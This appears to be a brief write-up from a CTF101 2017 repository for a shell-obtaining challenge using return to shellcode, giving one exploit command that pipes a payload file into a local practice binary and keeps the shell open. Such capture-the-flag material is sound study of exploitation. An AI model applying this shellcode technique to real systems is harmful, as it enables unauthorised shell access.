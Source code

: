 # CTF101 2017: Challenge 4

## Type of challenge

- Obtaining shell
- Return to shellcode

---

## Exploit

```shell
(cat payload.in; cat) | ./seashells
```
